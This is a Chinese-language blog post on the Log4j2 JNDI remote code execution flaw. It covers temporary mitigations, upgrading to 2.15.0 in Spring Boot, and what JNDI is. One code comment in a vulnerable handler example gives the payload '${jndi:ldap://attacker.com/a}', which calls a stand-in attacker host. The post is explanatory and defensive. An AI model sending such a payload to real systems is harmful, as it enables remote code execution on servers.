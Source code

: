 

长话短说吧。

相信大家已经被 Log4j2 的重大漏洞刷屏了，估计有不少小伙伴此时此刻已经累趴下了。很不幸，我的小老弟小二的 Spring Boot 项目中恰好用的就是 Log4j2，版本特喵的还是 2.14.1，在这次漏洞波及的版本范围之内。

第一时间从网上得知这个漏洞的消息后，小二吓尿了。赶紧跑过来问老王怎么解决。

老王先是给小二提供了一些临时性的建议，比如说：

```
JVM 参数添加 -Dlog4j2.formatMsgNoLookups=true
log4j2.formatMsgNoLookups=True
FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为true
```

并且老王也在时刻的关注着 Log4j2 的官网和 Spring Boot GitHub 仓库的最新消息。

Java 后端开发的小伙伴应该都知道，Log4j、SLF4J、Logback 这 3 个日志组件是一个爹——Ceki Gulcu，但 Log4j 2 却是例外，它是 Apache 基金会的产品。

所以这波超级高危漏洞的锅必须得由 Apache 来背。并且波及范围非常广，已知受影响的应用程序和组件有：

- Spring-boot-strater-log4j2
- Apache Solr
- Apache Flink
- Apache Druid

并且只要是在 Log4j 2.x <= 2.14.1 之间的版本，都将受到影响——注定被载入史册的一波 bug 啊。

目前，Log4j2 的官网已经发布了 Log4j2 2.15.0 正式版，来解决此次漏洞。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/shigu/log4j2-01.png)

那随着 Log4j2 2.15.0 正式版的发布，Spring Boot 的 GitHub 仓库提的这些关于 Log4j2 的 issue 都已经处于关闭状态了。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/shigu/log4j2-02.png)

看到这些消息后，老王紧张的情绪一下子就缓解了下来，就像吃了一颗定心丸，赶紧去通知小二不用再提心吊胆了，直接一行代码搞定。

```
<properties>
    <log4j2.version>2.15.0</log4j2.version>
</properties>
```

详情可参照 Spring Boot 官方这篇博客：

>https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot

Gradle 构建的项目也有解决方案。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/shigu/log4j2-03.png)

问题是解决了，不过老王没闲着。他从 Log4j2 官网公布的最新消息中琢磨出，本次远程代码执行漏洞正是由于组件存在 Java JNDI 注入漏洞：**当程序将用户输入的数据记录到日志时，攻击者通过构造特殊请求，来触发 Apache Log4j2 中的远程代码执行漏洞，从而利用此漏洞在目标服务器上执行任意代码**。

那肯定会有小伙伴在好奇 JNDI 是什么东东？来看一下维基百科的解释。

>Java命名和目录接口（Java Naming and Directory Interface，缩写JNDI），是Java的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。

利用下面这段代码，攻击者可以通过JNDI来执行LDAP协议来注入一些非法的可执行代码。

```java
public class VulnerableLog4jExampleHandler implements HttpHandler {
    static Logger log = Logger.getLogger(log4jExample.class.getName());
    /**
     * A simple HTTP endpoint that reads the request's User Agent and logs it back.
     *
     * This is basically pseudo-code to explain the vulnerability, and not a full example.
     *
     * @param he HTTP Request Object
     */
    public void handle(HttpExchange he) throws IOException {
        String userAgent = he.getRequestHeader("user-agent");
// This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
// The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
        log.info("Request User Agent:" + userAgent);
        String response = "<h1>Hello There, " + userAgent + "!</h1>";
        he.sendResponseHeaders(200, response.length());
        OutputStream os = he.getResponseBody();
        os.write(response.getBytes());
        os.close();
    }
}
```

具体的攻击手段可以参考这里：

>https://github.com/apache/pulsar/issues/13232

下图是程序猿阿朗画的简单的攻击链路步骤图。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/shigu/log4j2-04.png)

感兴趣的小伙伴可以在本地复现一下，但**千万不要不当利用**哦！

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/shigu/log4j2-05.png)

再次提醒大家一下，排查自己的项目是否引入了 Apache log4j-core Jar 包。

![](http://cdn.tobebetterjavaer.com/tobebetterjavaer/images/shigu/log4j2-06.png)

如果存在依赖引入，且在受影响版本范围内，请升级到 Apache Log4j2  2.15.0 版本，目前已经 release。



